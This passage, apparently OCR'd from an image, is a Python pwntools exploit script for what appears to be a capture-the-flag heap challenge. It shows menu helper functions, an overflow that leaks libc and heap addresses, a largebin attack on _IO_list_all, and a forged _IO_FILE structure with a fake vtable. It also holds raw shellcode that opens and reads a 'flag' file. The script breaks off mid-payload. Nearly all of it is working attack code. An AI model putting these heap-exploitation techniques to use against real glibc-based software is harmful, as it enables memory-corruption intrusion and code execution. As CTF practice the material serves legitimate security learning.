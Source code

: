 ```python
    p.sendlineafter(b"choice >> ",b'2')
    p.sendlineafter(b"idx:",str(idx).encode())

def edit(idx,size,content):
    p.sendlineafter(b"choice >> ",b'3')
    p.sendlineafter(b"idx:",str(idx).encode())
    p.sendlineafter(b"size:",str(size).encode())
    p.sendafter(b"content:",content)

def show(idx):
    p.sendlineafter(b"choice >> ",b'4')
    p.sendlineafter(b"idx:",str(idx).encode())

def Exit():
    p.sendlineafter(b"choice >> ",b'5')

add(0x200,b'a') # 0
add(0x490,b'a') # 1
add(0x1a0,b'a') # 2
add(0x480,b'b') # 3
add(0x500,b'c') # 4
delete(1)
add(0x500,b'g') # 1
delete(3)

edit(0,0x300,b'a'*0x200 + b'b'*0x10)
show(0)
p.recvuntil(b'b'*0x10)
libc_addr = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = libc_addr - 0x21b0f0
log.success("libc_base ==>> " + hex(libc_base))

edit(0,0x300,b'a'*0x200 + b'b'*0x20)
show(0)
p.recvuntil(b'b'*0x20)
heap_addr = u64(p.recv(6).ljust(8,b'\x00'))
heap_base = heap_addr - 0x002510
log.success("heap_base ==>> " + hex(heap_base))

edit(0,0x300,b'a'*0x200 + p64(0) + p64(0x4a1) + p64(libc_addr)*2 + p64(heap_addr) + p64(libc_base + libc.sym['_IO_list_all'] - 0x20))
add(0x500,b'g') # 5

fake_IO_FILE = heap_base + 0x002b60
shellcode = b'hflagH\x89\xe71\xf6j\x02X\x0f\x05H\x89\xc7H\x89\xe6\xba\x00\x01\x00\x001\xc0\x0f\x05\xbf\x01\x00\x00\x00H\x89\xe6j\x01X\x0f\x05'

f = flat({
    0x28: 1, # _IO_write_ptr
    0x38: fake_IO_FILE + 0x280, # _IO_buf_base
    0xa0: fake_IO_FILE + 0xe0, # _wide_data
    0xd8: libc_base + 0x2170c0, #_vtables
    }, filler = b'\x00')

data = bytes(f).ljust(0xe0, b"\x00")

data += b"\x00" * 0xe0
data += p64(fake_IO_FILE + 0x200)
data = data.ljust(0x200, b"\x00")

data += b"\x00" * 0x68
data += p64(libc_base + 0x15d48a)   
data = data.ljust(0x280, b"\x00")
```